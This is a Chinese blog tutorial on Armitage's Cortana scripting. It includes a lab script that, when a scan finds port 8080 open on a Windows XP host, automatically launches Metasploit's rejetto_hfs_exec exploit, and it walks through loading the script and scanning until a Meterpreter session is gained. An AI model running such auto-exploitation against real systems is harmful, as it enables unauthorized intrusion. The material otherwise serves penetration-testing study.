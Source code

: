 ```yaml
---
layout: post
category: binghe-code-hack
title: Armitage脚本编写
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Armitage脚本编写
lock: need
---
```


# Armitage脚本编写

Cortana是一种脚本语言，在Armitage中用来创建攻击向量。

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 编写Cortana脚本8080.cna

```
on service_add_8080{
    println("Hacking a Host running $1 (" . host_os($1) . ")");
    if(host_os($1) eq "Windows XP"){
        exploit("windows/http/rejetto_hfs_exec", $1, %(RPORT => "8080"));
    }
}
```

当使用Nmap或者MSF扫描发现目标的8080端口处于开放状态时，脚本就会执行。这段脚本会交叉目标系统是否为Windows XP；如果结果为真，Cortana就会自动利用rejetto_hfs_exec渗透模块攻击目标的8080端口。

在这段脚本中，`$1指明主机的IP地址；println函数输出打印字符和变量；host_os作为一个Cortana中编写的函数可以返回主机的操作系统类型；函数exploit在参数$`1指定的IP地址启动一个渗透模块；%表示为渗透模块设置的选项，如果服务运行在不同的端口或者需要其他细节时，可以通过%设置这些渗透模块的选项；service_add_8080指定了当在特定客户端发现开放的8080端口时触发的事件。

### 加载8080.cna脚本

首先，输入命令armitage打开Armitage，接着依次单击Armitage->Scripts

![img](https://img-blog.csdnimg.cn/20190128205219905.png)

结果如下：

![img](https://img-blog.csdnimg.cn/2019012820523796.png)

多了一个Scripts面板。

这里我们单击Load按钮：

![img](https://img-blog.csdnimg.cn/20190128205256597.png)

弹出对话框，选择8080.cna然后点击打开按钮：

![img](https://img-blog.csdnimg.cn/20190128205600498.png)

之后选中8080.cna单击Console按钮

![img](https://img-blog.csdnimg.cn/20190128205614219.png)

单击Console后如下图所示：

![img](https://img-blog.csdnimg.cn/2019012821054976.png)

打开了Cortana命令行，这里我们输入help查看下帮助菜单：

![img](https://img-blog.csdnimg.cn/20190128210605131.png)

命令说明如下：

```
cortana> help   

Commands
--------
askoff #参数为cna脚本，关闭脚本交互功能
askon #参数为cna脚本，开启脚本交互功能
help #查看帮助信息
load #参数为路径，加载Cortana脚本
logoff #参数为cna脚本，关闭脚本日志记录
logon #参数为cna脚本，开启脚本日志记录
ls #列出加载的脚本
proff #参数为cna脚本，关闭脚本分析器
profile #参数为cna脚本，查看脚本简介
pron #参数为cna脚本，开启脚本分析器
reload #参数为cna脚本，重新加载脚本
troff #参数为cna脚本，关闭脚本跟踪功能
tron #参数为cna脚本，开启脚本跟踪功能
unload #参数为cna脚本，卸载脚本
```

接下来，我们通过logon开启脚本日志

![img](https://img-blog.csdnimg.cn/20190128210757779.png)

### 扫描目标主机

依次单击Hosts->Nmap Scan->Intense Scan

![img](https://img-blog.csdnimg.cn/20190128210825352.png)

弹出对话框输出扫描的目标主机范围：

![img](https://img-blog.csdnimg.cn/20190128210841856.png)

![img](https://img-blog.csdnimg.cn/20190128210850352.png)

开始扫描，扫描完成之后，如果目标主机中有打开8080端口，并且操作系统是Windows XP，同时，Windows XP 8080端口上运行的是HFS 2.3。那么，在Cortana命令行下就会获取到目标主机的Meterpreter权限。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)